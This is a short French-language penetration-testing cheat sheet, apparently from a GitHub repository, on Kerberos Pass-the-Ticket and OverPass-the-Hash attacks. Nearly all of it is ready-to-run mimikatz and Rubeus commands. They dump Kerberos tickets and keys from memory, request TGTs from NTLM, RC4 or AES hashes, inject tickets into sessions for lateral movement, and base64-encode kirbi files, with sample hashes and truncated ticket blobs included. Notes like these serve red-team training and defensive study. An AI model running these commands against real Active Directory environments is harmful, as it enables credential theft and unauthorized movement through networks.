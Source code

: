 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Principe
Voler / extraire un ticket kerberos et le réutiliser
- s'il s'agit d'un TGT, on pourra demander de nouveaux TGS
- s'il s'agit d'un TGS, on pourra l'utiliser pour communiquer avec le service cible.

Pour collecter les tickets Kerberos, on utilisera soit mimikatz, soit rubeus localement.


## Collecter des tickets Kerberos

### Mimikatz

```
# crée un fichier .kirbi par ticket exporté
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus

```
# Affiche dans la console la encodée en base 64 des tickets kirbi
Rubeus.exe dump /nowrap
```

## Utiliser des tickets

### Mimikatz

```
mimikatz.exe privilege::debug "kerberos::ptt ticket.kirbi"
```

## Créer ses propres tickets
Cette technique s'appelle **OverPass the Hash** ou **Pass The Key**
Prérequis : disposer d'un Hash de mot de passe (RC4_HMAC, AES256_CTS_HMAC_SHA1, etc.)

### Extraire les clé Kerberos

```
# récupération des clés AES256_HMAC et RC4_HMA
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```

### Pass the Key (OverPass the Hash)

Permet de demander un TGT à partir d'un hash
#### Mimikatz

Nécessite d'être administrateur local

```
# crée un processus cmd.exe ayant en mémoire le TGT de MYUSER 
mimikatz.exe privilege::debug "sekurlsa::pth /domain:domain.local /user:MYUSER /ntlm:<THE_HASH>"
```

#### Rubeus

Ne nécessite pas d'être administrateur local :)

```
# affiche la version encodée en b64 du kirbi
Rubeus.exe  asktgt /domain:domain.local /user:MYUSER /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```


## Pass The Ticket

Utiliser les tickets pour réaliser des mouvements latéraux.

### Rubeus 
```
# Sans ticket préalable : 
# réalise à la fois le PassTheKey et le Pass The Ticket
Rubeus.exe asktgt /domain:domain.local /user:MYUSER /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt


# Importation depuis un ticket.kirbi
Rubeus.exe ptt /ticket:ticket.kirbi

# PTT depuis un ticket encodé en base 64 (récupéré de rubeus OPtH ou encodé à la main)
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

### Mimikatz

```
mimikatz.exe privilege::debug "kerberos::ptt ticket.kirbi"
```

### Encoder manuellement un kirbi en base 64

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("ticket.kirbi"))
```

## Resources
Présentation parlant de PTT et de Golden Tickets (par Benjamin DELPY)
https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it